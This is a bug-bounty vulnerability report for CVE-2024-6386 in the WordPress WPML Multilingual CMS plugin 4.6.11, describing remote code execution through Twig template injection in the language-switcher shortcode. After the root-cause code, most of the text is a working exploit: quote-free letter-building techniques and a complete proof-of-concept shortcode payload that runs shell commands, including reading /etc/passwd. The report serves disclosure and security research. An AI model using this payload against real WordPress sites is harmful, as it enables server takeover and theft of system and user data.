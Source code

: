 # Post Report Info

- Link: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/sitepress-multilingual-cms/wpml-multilingual-cms-4612-authenticatedcontributor-remote-code-execution-via-twig-server-side-template-injection
- Blog: https://sec.stealthcopter.com/wpml-rce-via-twig-ssti/
- CVE: CVE-2024-6386
- Bounty: $1639

# The WPML Multilingual CMS Authenticated (Contributor+) RCE via SSTI

The WPML Multilingual CMS plugin version: 4.6.11 is vulnerable to an Authenticated (Contributor+) Remote Code Execution (RCE) via a Twig server-side template injection (SSTI).

## Affected Plugin

Title: WPML Multilingual CMS
Installations: >1,000,000 (https://wpml.org/home/about-us/)
Version: 4.6.11
Slug: sitepress-multilingual-cms
Link: https://wpml.org/

## Root Cause

The plugin defines some shortcodes in `sitepress-multilingual-cms/classes/language-switcher/public-api/class-wpml-ls-shortcodes.php`:

```php
   add_shortcode( 'wpml_language_switcher', array( $this, 'callback' ) );

   // Backward compatibility
   add_shortcode( 'wpml_language_selector_widget', array( $this, 'callback' ) );
   add_shortcode( 'wpml_language_selector_footer', array( $this, 'callback' ) );
```

Where the `callback` function is:

```php
 public function callback( $args, $content = null, $tag = '' ) {
     $args = (array) $args;
     $args = $this->parse_legacy_shortcodes( $args, $tag );
     $args = $this->convert_shortcode_args_aliases( $args );

     return $this->render( $args, $content );
 }
```

And this calls the `render` function in `sitepress-multilingual-cms/classes/language-switcher/public-api/class-wpml-ls-public-api.php`, and passes the content of the shortcode tag into the `twig_template` variable:

```php
protected function render( $args, $twig_template = null ) {
   $defaults_slot_args = $this->get_default_slot_args( $args );
   $slot_args          = array_merge( $defaults_slot_args, $args );
   
   $slot = $this->get_slot_factory()->get_slot( $slot_args );
   $slot->set( 'show', 1 );
   $slot->set( 'template_string', $twig_template );
   
   if ( $slot->is_post_translations() ) {
      $output = $this->render->post_translations_label( $slot );
   } else {
      $output = $this->render->render( $slot );
   }
   
   return $output;
}
```

And this variable is then rendered as a twig template string.

## Payload Construction

The shortcode below will demonstrate that the contents of a shortcode tag will be rendered as a twig template:
```
[wpml_language_switcher]
{{ 4 * 7 }}
[/wpml_language_switcher]
```

When saved we will see the output of `28` on the page. Bingpot! A slight complication here that must be overcome to exploit further is the fact that WordPress will HTML encode any single or double quotes. Meaning we cannot execute any of the class twig template injection to RCE combos. 

However, not all hope is lost as it is possible to gain full RCE by being creative and generating some strings without using any quote chars. Firstly we see that we have access to dump all the variables available: 

```
[wpml_language_switcher]
{{ dump() }}
[/wpml_language_switcher]
```

This will output something like the following

```
array(4) { ["languages"]=> array(1) { ["en"]=> array(8) { ["code"]=> string(2) "en" ["url"]=> string(34) "http://wordpress.local:1337/?p=126" ["native_name"]=> string(7) "English" ["display_name"]=> string(7) "English" ["is_current"]=> bool(true) ["css_classes"]=> string(121) "wpml-ls-slot-shortcode_actions wpml-ls-item wpml-ls-item-en wpml-ls-current-language wpml-ls-first-item wpml-ls-last-item" ["flag_width"]=> int(18) ["flag_height"]=> int(12) } } ["current_language_code"]=> string(2) "en" ["css_classes"]=> string(41) "wpml-ls-statics-shortcode_actions wpml-ls" ["css_classes_link"]=> string(12) "wpml-ls-link" }
```

This output provides enough letters to now create strings we can use for further exploitation. For example we can create `s` by:

```
{% set s = dump(current_language_code)|slice(0,1) %}
```

This can be repeated until we have the chars to spell out `system` which will allow us to execute arbitrary commands. For example, once we have the letters defined, the basic `id` command can be executed as follows:

```
{% set system = s~y~s~t~e~m %}
{% set id = i~d %}
{{[id]|map(system)|join}}
```

Once we have the ability to execute shell commands we can even use the output from the shell to give us access to further letter we may find difficult to obtain via templating. This can be seen in the snippet below, where a slash `/` is obtained from the output of the `pwd` shell command:

```
{% set slash = [pwd]|map(system)|join|slice(0,1) %}
```

## Proof of Concept

1. Prepare your environment:
   * Buy the plugin https://wpml.org/purchase/ (€99 CMS version). They offer a 30-day money-back guarantee that can be used for our testing purposes.
   * Install the `otgs-installer` plugin installer from your account: `https://wpml.org/account/downloads/`
   * Follow the wizard 🧙 and install the required plugins and register your site and activate your site key 🔑.
2. As a contributor level user or higher create a new post and use the following payload:

```
[wpml_language_switcher]

{# Find letters we need as we cant use any quotes #}
{% set s = dump(current_language_code)|slice(0,1) %}
{% set t = dump(current_language_code)|slice(1,1) %}
{% set r = dump(current_language_code)|slice(2,1) %}
{% set i = dump(current_language_code)|slice(3,1) %}
{% set n = dump(current_language_code)|slice(4,1) %}
{% set g = dump(current_language_code)|slice(5,1) %}
{% set a = dump()|slice(0,1) %}
{% set y = dump()|slice(4,1) %}
{% set e = dump(css_classes)|slice(36,1) %}
{% set w = dump(css_classes)|slice(12,1) %}
{% set p = dump(css_classes)|slice(13,1) %}
{% set m = dump(css_classes)|slice(14,1) %}
{% set d = dump(css_classes)|slice(35,1) %}
{% set c = dump(css_classes)|slice(25,1) %}
{% set space = dump(css_classes)|slice(45,1) %}

{% set system = s~y~s~t~e~m %}
{% set id = i~d %}
{% set pwd = p~w~d %}

We can use the output from `dump` or any other similar function to grab any letters we need to create our strings.

Once we have code basic code execution we can use that to grab any letters we may not be able to easily grab via template injection.

{% set slash = [pwd]|map(system)|join|slice(0,1) %}

{% set passwd = c~a~t~space~slash~e~t~c~slash~p~a~s~s~w~d %}


Debug: {{dump()}}

Command: {{system}} {{id}} {{pwd}}

id: {{[id]|map(system)|join}}

pwd: {{[pwd]|map(system)|join}}

passwd: {{[passwd]|map(system)|join}}

[/wpml_language_switcher]
```

3. Observe that code execution is obtained and `id` `pwd` and `cat /etc/passwd` results are in the post preview. 
   * **Errors**: If there is an issue with the PoC not returning expected values, the first thing I would check is that `dump` shows the correct letters for each variable e.g. `["n"]=> string(1) "n"`. I tried to make the PoC use what seemed like the most stable letter sources e.g. `string` and `array` but had to use `css_classes` for some of them, which should hopefully be static enough...